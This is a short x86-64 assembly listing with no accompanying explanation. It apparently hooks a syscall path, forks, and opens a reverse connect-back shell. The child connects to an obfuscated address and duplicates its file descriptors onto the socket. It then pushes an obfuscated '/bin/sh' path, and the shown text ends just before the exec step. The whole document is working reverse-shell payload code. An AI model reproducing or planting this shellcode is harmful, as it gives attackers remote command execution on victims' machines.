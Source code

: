 ```
cmp rbx,rax
jne emulate

xor rax,rax
mov al,0x39
syscall #fork
xor rbx,rbx
cmp rax,rbx
je connectback

emulate:
pop rbx
xor rax,rax
mov al,0x60
syscall
retq

connectback:
xor rdx,rdx
pushq 0x1
pop rsi
pushq 0x2
pop rdi
pushq 0x29
pop rax 
syscall #socket

xchg rdi,rax
push rax
mov rcx, 0xfeffff80faf2fffd
not rcx
push rcx
mov rsi,rsp
pushq 0x10
pop rdx
pushq 0x2a
pop rax
syscall #connect

xor rbx,rbx
cmp rax,rbx
je sh
xor rax,rax
mov al,0xe7
syscall #exit

sh:
nop
pushq 0x3
pop rsi
duploop:
pushq 0x21
pop rax
dec rsi
syscall #dup
jne duploop

mov rbx,0xff978cd091969dd0
not rbx
push rbx
mov rdi,rsp
push rax
push rdi
```